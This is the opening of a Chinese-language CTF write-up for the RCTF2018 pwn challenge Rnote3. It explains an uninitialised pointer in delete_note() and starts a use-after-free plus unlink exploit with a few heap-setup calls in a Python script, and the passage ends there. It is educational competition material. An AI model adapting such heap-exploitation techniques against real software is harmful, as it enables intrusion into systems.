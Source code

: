 5/24/2018 11:25:55 PM 

# RCTF2018 PWN #
# Rnote #
## 1.题目分析 ##
典型的菜单题目，漏洞点位于delete_note()中，对ptr指针没有进行初始化。因此，该指针保存了之前函数对该栈地址（ebp-x018）赋值过后的值。  
存在漏洞函数如下所示：  
![漏洞点](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/Pwn/Rnote3/picture/1.PNG)  
保护机制如下：  
![保护机制](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/Pwn/Rnote3/picture/2.PNG)  
## 2.漏洞利用 ##
### 利用方法1: UAF+Unlink ###
创建堆块如下所示：

	payload = 'AAAAAA'
	ru('Exit\n')
	add_note('a',0x28,payload)
	add_note('d',0x28,payload)
	add_note('b',0x88,payload)
	add_note('c',0x88,payload)
	add_note('f',0x88,payload)
